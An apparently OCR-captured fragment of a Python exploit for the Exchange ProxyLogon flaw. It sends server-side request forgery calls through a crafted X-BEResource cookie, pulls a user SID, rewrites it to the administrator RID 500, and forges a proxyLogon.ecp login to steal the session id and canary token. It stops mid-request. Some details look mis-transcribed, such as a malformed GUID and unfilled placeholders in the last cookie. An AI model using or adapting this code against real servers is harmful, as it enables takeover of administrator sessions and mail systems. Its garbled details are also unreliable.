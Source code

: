 ```python

            ct = requests.post("https://%s/ecp/%s" % (target, random_name), headers={
                "Cookie": "X-BEResource=Administrator@%s:444/mapi/emsmdb?MailboxId=f26bc937-b7b3-4402-b890-96c46713e5d5@exchange.lab&a=~1942062522;" % FQDN,
                "Content-Type": "application/mapi-http",
                "X-Requesttype": "Connect",
                "X-Clientinfo": "{2F94A2BF-A2E6-4CCCC-BF98-B5F22C542226}",
                "X-Clientapplication": "Outlook/15.0.4815.1002",
                "X-Requestid": "{E2EA6C1C-E61B-49E9-9CFB-38184F907552}:123456",
                "User-Agent": user_agent
            },
                data=mapi_body,
                verify=False,
                proxies=proxies
            )
            if ct.status_code != 200 or "act as owner of a UserMailbox" not in str(ct.content):
                print("Mapi Error!")
                exit()

            sid = str(ct.content).split("with SID ")[
                1].split(" and MasterAccountSid")[0]

            print("Got SID: " + sid)
            sid = sid.replace(sid.split("-")[-1], "500")

            proxyLogon_request = """<r at="Negotiate" ln="john"><s>%s</s><s a="7" t="1">S-1-1-0</s><s a="7" t="1">S-1-5-2</s><s a="7" t="1">S-1-5-11</s><s a="7" t="1">S-1-5-15</s><s a="3221225479" t="1">S-1-5-5-0-6948923</s></r>
            """ % sid

            ct = requests.post("https://%s/ecp/%s" % (target, random_name), headers={
                "Cookie": "X-BEResource=Administrator@%s:444/ecp/proxyLogon.ecp?a=~1942062522;" % FQDN,
                "Content-Type": "text/xml",
                "msExchLogonMailbox": "S-1-5-20",
                "User-Agent": user_agent
            },
                data=proxyLogon_request,
                proxies=proxies,
                verify=False
            )
            if ct.status_code != 241 or not "set-cookie" in ct.headers:
                print("Proxylogon Error!")
                exit()

            sess_id = ct.headers['set-cookie'].split(
                "ASP.NET_SessionId=")[1].split(";")[0]

            msExchEcpCanary = ct.headers['set-cookie'].split("msExchEcpCanary=")[
                1].split(";")[0]
            print("Got session id: " + sess_id)
            print("Got canary: " + msExchEcpCanary)

            ct = requests.post("https://%s/ecp/%s" % (target, random_name), headers={
                # "Cookie": "X-BEResource=Administrator@%s:444/ecp/DDI/DDIService.svc/GetObject?schema=OABVirtualDirectory&msExchEcpCanary=%s&a=~1942062522; ASP.NET_SessionId=%s; msExchEcpCanary=%s" % (
                # FQDN, msExchEcpCanary, sess_id, msExchEcpCanary),

                "Cookie": "X-BEResource=Admin@{server_name}:444/ecp/DDI/DDIService.svc/GetList?reqId=1615583487987&schema=VirtualDirectory&msExchEcpCanary={msExchEcpCanary}&a=~1942062522; ASP.NET_SessionId={sess_id}; msExchEcpCanary={msExchEcpCanary1}".
```